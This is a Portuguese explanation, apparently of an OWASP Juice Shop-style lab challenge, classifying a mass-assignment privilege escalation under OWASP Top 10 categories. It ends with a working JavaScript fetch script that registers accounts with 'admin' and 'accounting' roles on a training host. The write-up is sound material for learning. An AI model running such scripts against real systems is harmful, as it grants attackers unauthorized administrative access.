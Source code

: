 O que você descreveu (enviar um **POST** para criar contas com papéis elevados como `admin` ou `accounting`) se encaixa em várias categorias do **OWASP Top 10**, dependendo de como o sistema está vulnerável:

### 🔹 1. **Broken Access Control (A01:2021)**

* O sistema **não deveria permitir** que um usuário comum defina o campo `"role": "admin"` ou `"role": "accounting"` na requisição.
* Se isso é aceito, significa que **o controle de acesso está quebrado**, pois o back-end não valida se quem está criando a conta tem permissão para atribuir papéis administrativos.

---

### 🔹 2. **Insecure Design (A04:2021)**

* O fato de o **papel do usuário (`role`) ser definido pelo próprio cliente** mostra que o sistema foi **mal projetado**.
* É um exemplo clássico de **falta de validação no servidor** e de confiar demais no que vem do lado do cliente.

---

### 🔹 3. **Security Misconfiguration (A05:2021)**

* Se a API não exige autenticação para criar usuários ou **não possui regras de negócios adequadas**, também é considerado **má configuração de segurança**.

---

📌 **Resumo:**
O ataque é um **Broken Access Control** porque **permite que qualquer pessoa crie contas com privilégios elevados alterando o campo `role`** na requisição.

Na prática, isso é conhecido como **Privilege Escalation (Escalada de Privilégios)** via **Mass Assignment (atribuição indevida de campos)**.

👉 No **Juice Shop (OWASP)**, esse desafio geralmente está relacionado ao **"Privilege Escalation"** e ao **"Improper Access Control"**.

```js
const users = [
  {
    email: "admin@mail",
    role: "admin",
    password: "admin1",
    passwordRepeat: "admin1",
    securityQuestion: {
      id: 1,
      question: "Your eldest siblings middle name?",
      createdAt: "2020-08-13T14:12:54.775Z",
      updatedAt: "2020-08-13T14:12:54.775Z"
    },
    securityAnswer: "Whatever"
  },
  {
    email: "admin1@mail",
    role: "accounting",
    password: "admin1",
    passwordRepeat: "admin1",
    securityQuestion: {
      id: 1,
      question: "Your eldest siblings middle name?",
      createdAt: "2020-08-13T14:12:54.775Z",
      updatedAt: "2020-08-13T14:12:54.775Z"
    },
    securityAnswer: "Whatever"
  }
];

users.forEach(user => {
  fetch("https://arena.cecyber.com/api/Users/", {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
      "accept": "application/json, text/plain, */*"
    },
    body: JSON.stringify(user)
  })
    .then(res => res.json())
    .then(data => console.log("Resposta:", data))
    .catch(err => console.error("Erro:", err));
});

```